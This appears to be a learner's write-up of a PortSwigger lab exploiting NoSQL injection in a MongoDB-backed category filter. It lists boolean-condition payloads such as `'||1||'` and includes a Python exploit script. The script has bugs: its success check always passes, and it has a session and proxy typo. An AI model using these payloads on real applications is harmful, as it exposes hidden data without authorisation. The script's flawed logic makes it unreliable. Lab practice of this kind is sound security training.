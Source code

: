 The product category filter for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.

To solve the lab, perform a NoSQL injection attack that causes the application to display unreleased products.

---

**Goal:** display unreleased products by exploiting NoSQL.

- In Repeater, submit a `'` character in the category parameter. Notice that this causes a JavaScript syntax error. This may indicate that the user input was not filtered or sanitized correctly.
   
- Submit a valid JavaScript payload in the value of the category query parameter. You could use the following payload:

```php
Gifts'+'
```

_Make sure to URL-encode the payload by highlighting it and using the `Ctrl-U` hotkey. Notice that it doesn't cause a syntax error. This indicates that a form of server-side injection may be occurring._

Insert a false condition in the category parameter.
```php
' && 0 && 'x
```
- Doesn't display items 

Insert a true condition in the category parameter.
```php
' && 1 && 'x
```
- Displays three items in the gifts category

That means that there is conditional behaviour in the app based on the true and false requests i sent.

Now that i have identified that i can influence boolean conditions, i can attempt to override existing conditions to exploit the vulnerability. 

Payload 

A boolean condition that always evaluates to true
```php
'||1||'
```

Exploit details:

`GET /filter?category=Gifts'||1||'` 

URL: `https://0a7400450454676a81e634f60003001e.web-security-academy.net/filter?category=Gifts`

Requires session.

Script

```python
#!/usr/bin/python3

import urllib3
import requests
import sys

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'https': 'http://127.0.0.1:8080', 'http': 'htps://127.0.0.1:8080'}

def get_hidden_items(s, url):
	payload = "filter?category=Gifts'||1||'"
	r = requests.get(url + payload, verify=False, proxies=proxies)
	if "Bucket of Doom" or "Picture Box" in r.text:
		print("[+] Exploit success!")
		
	else:
		print("[+] Exploit failed.")
		sys.exit(-1)


def main():
	if len(sys.argv) != 2:
		print("[+] Usage: %s <URL>" % sys.argv[0])
		print("[+] Example: %s www.example.com/" % sys.argv[0])
		sys.exit(-1)
		
	url = sys.argv[1]
	s = requests.Session
	print("[+] Attempting to exploit the server...")
	get_hidden_items(s, url)
	
if __name__ == '__main__':
	main()
```

I was a little bit rusty making this, but i didn't get too many errors so i'm quite pleased with that.

You may need to change a few things if you wish to use this script:
- Product category `Gifts`

_I think the items might change as well which is why i added an or with an extra item, so even though it may say that it failed, it could still have completed the lab._

---

**Completed:** _13:35 2024-09-18_

